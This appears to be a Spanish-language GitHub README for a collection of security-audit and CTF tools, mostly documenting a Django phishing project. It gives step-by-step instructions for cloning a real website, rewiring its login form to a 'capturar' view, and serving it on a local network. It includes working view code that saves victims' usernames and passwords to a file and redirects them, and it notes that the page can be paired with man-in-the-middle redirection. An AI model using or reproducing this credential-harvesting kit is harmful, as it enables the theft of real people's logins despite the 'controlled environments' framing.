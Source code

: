 # Herramientas para el uso en auditorías de seguridad o CTF (Capture the Flag)

## Fuzzing
El fuzzer está diseñado para encontrar directorios o archivos ocultos en páginas web.

## Brute-Force
1. Breaking passwords:
    Para realizar ataques de fuerza bruta de manera local después de obtener y identificar un hash de contraseña.

# Social-Engineering
Sección en desarrollo.

---

## Proyecto de Phishing en Django

## Descripción
Este proyecto te permite clonar páginas web y capturar credenciales mediante un formulario. Es ideal para realizar demostraciones o pruebas de seguridad (ethical hacking) en entornos controlados.

## Requisitos
- Conocimientos básicos de Django.
- Habilidad para modificar plantillas HTML.

## Dependencias
- Python
- Django
- Node.js y npm (para formateo de HTML con Prettier)

## Guía de Uso

Esta herramienta requiere que sepas cómo manipular plantillas HTML y entender el flujo básico de una aplicación Django.

### 1. Clonar una página web

Utiliza el script `clonar.py`, ubicado en la raíz del proyecto, para clonar la página web deseada. Este script solicitará la URL del sitio web y almacenará su contenido en la carpeta `templates`.

### 2. Organizar el HTML

El código HTML copiado de una página web puede venir desordenado y difícil de leer. Para mejorar su legibilidad, usa `Prettier` como formateador de código.

- **Instalación de Node.js y npm** (si no los tienes instalados):

    ```bash
    sudo apt install nodejs npm
    ```

- **Instalación de Prettier**:

    ```bash
    npm install -g prettier
    ```

- **Formateo del archivo HTML**:

    Dirígete a la carpeta `templates` y ejecuta el siguiente comando para formatear el archivo `index.html`:

    ```bash
    prettier --write index.html
    ```

    Tras esto, el archivo será más legible y estará listo para su modificación.

### 3. Modificación de la vista `capturar`

En la vista `capturar`, ubicada en la carpeta principal `phishing`, debes modificar los parámetros según los nombres de los inputs del formulario HTML que has clonado.

- Código de ejemplo para la vista `capturar`:

    ```python
    def capturar(request):
        if request.method == 'POST':
            username = request.POST['{MODIFICA}']  # Nombre del input para el usuario
            password = request.POST['{MODIFICA}']  # Nombre del input para la contraseña
            with open('credenciales.txt', 'a') as data:  # Abre el archivo para agregar credenciales
                data.write(f"[+]Usuario = {username} : [+]Contraseña = {password}\n")
            return HttpResponseRedirect('{URL DONDE DESEES REDIRIGIR A LA VÍCTIMA}')
    ```

    **Nota**: Asegúrate de modificar `{MODIFICA}` con el nombre exacto del atributo `name` de los inputs en tu HTML.

### 4. Modificar el archivo `index.html`

Dentro de la plantilla HTML clonado, debes hacer los siguientes ajustes:

1. **Cambiar la acción del formulario**:

    Localiza la etiqueta `<form>` y ajusta el atributo `action` para que apunte a la URL de la vista `capturar` en Django.

    - *Ejemplo*:

    ```html
    <form action="{% url 'capturar' %}" method="POST">
    ```

2. **Agregar el CSRF token**:

    Asegúrate de incluir el token CSRF de Django para que el formulario sea válido.

    - *Ejemplo*:

    ```html
    <form action="{% url 'capturar' %}" method="POST">
        {% csrf_token %}
    ```

3. **Actualizar los `name` de los inputs**:

    Cambia el valor del atributo `name` en cada input para que coincida con los nombres que has configurado en la vista `capturar`.

    - *Ejemplo*:

    ```html
    <input type="text" name="username" placeholder="Usuario">
    <input type="password" name="password" placeholder="Contraseña">
    ```

    O ajusta la vista para coincidir con los nombres existentes de los inputs en tu formulario.

### 5. Modificar el archivo `settings.py`

Para poder compartir el proyecto en una red local y ejecutar el servidor, debes agregar la IP de tu red local en la configuración de `ALLOWED_HOSTS` dentro de `settings.py`.

1. Abre `settings.py` y busca la variable `ALLOWED_HOSTS`.
   
2. Agrega la dirección IP de tu red local, por ejemplo:

    ```python
    ALLOWED_HOSTS = ['192.168.1.100']  # Reemplaza con tu IP local
    ```

3. Luego, ejecuta el servidor de Django con:

    ```bash
    python manage.py runserver 0.0.0.0:8000
    ```

    Esto permitirá acceder al proyecto desde otros dispositivos en la misma red local.

### Nota sobre redireccionamientos

Puedes redirigir a la víctima solo si estás ejecutando un ataque de Man-in-the-Middle (MITM), lo cual permite interceptar el tráfico de la víctima y redirigirla a tu página clonada.

